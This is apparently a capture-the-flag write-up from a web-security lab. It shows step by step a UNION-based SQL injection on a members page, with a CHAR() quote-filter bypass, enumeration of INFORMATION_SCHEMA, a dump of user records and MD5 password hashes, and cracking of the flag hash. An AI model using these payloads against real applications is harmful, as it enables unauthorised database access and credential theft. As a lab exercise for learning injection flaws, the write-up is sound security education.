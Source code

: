 # Breach: SQL injection basic


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the members page

> You'll notice, by entering random data, that the form is vulnerable to SQL injection.

> You guess that the SQL query is something like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column={the payload you enter};
> ```

> 1. You know that the query is returning a 2 columns result.
> 2. You know that the verification is very poorly protected.

> Conclusion, we can explore the database !


#### Step 2:

Let's explore the database !

> We want to get only the wanted/interesting info, <br>
> So we'll search for a non-existing user id (for exemple `999`) <br>
> And we'll use the UNION operator to add a second query to the first one. <br>

> With the payload `999 UNION ...`, the query will look like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column=999 UNION ...;
> ```

> There is a special part of the db called `INFORMATION_SCHEMA` that contains tables listing all the information about the database. <br>
> For this exercise, we'll use `INFORMATION_SCHEMA.TABLES` and `INFORMATION_SCHEMA.COLUMNS`, but there are many more interesting tables in `INFORMATION_SCHEMA` !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `users` looks interesting, let's see what's inside...

> The quotes (`'` and `"`) are filtered, but we can use the `CHAR()` function to bypass this filter.

- Translate `users` and `Member_Sql_Injection` to their ASCII values:
```sql
CHAR(117, 115, 101, 114, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
```

- List all the columns in the `users` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
AND TABLE_NAME=CHAR(117, 115, 101, 114, 115)
```

> It gives us the culumns:
> | COLUMN_NAME  | COLUMN_TYPE  |
> | -----------: | :----------- |
> | user_id      | int(11)      |
> | first_name   | varchar(255) |
> | last_name    | varchar(255) |
> | town         | varchar(255) |
> | country      | varchar(255) |
> | planet       | varchar(255) |
> | Commentaire  | varchar(255) |
> | countersign  | varchar(255) |


#### Step 4:

Now we can get the flag from the `users` table.

- List every users:
```sql
999 UNION SELECT user_id, first_name FROM users
```

> Oh ! The user with the id `5` is named `Flag`, let's see if we can get the flag from his account.

- Get the flag:
```sql
999 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5
```

> We get:
> - Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> - 5ff9d0165b4f92b14994e5c685cdce28

--- 

Another way:

- We can list everything:
```sql
999 UNION SELECT user_id, first_name FROM users
UNION SELECT user_id, last_name FROM users
UNION SELECT user_id, town FROM users
UNION SELECT user_id, country FROM users
UNION SELECT user_id, planet FROM users
UNION SELECT user_id, Commentaire FROM users
UNION SELECT user_id, countersign FROM users
```

> It gives us:
> | user_id | first_name | last_name | town      | country  | planet | Commentaire                                                                   | countersign                      |
> | :-----: | :--------- | :-------- | :-------- | :------- | :----- | :---------------------------------------------------------------------------- | :------------------------------- |
> | 1       | one        | me        | Paris     | France   | EARTH  | Je pense, donc je suis                                                        | 2b3366bcfd44f540e630d4dc2b9b06d9 |
> | 2       | two        | me        | Helsinki  | Finlande | Earth  | Aamu on iltaa viisaampi.                                                      | 60e9032c586fb422e2c16dee6286cf10 |
> | 3       | three      | me        | Dublin    | Irlande  | Earth  | Dublin is a city of stories and secrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
> | 5       | Flag       | GetThe    | 42        |          |        | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |



#### Step 5:

- Decrypt the password (md5 lookup): `5ff9d0165b4f92b14994e5c685cdce28` -> `FortyTwo`

- Lower all the characters: `FortyTwo` -> `fortytwo`

- Sh256 on it: `fortytwo` -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


---

[[Back to main page](/#darkly)]
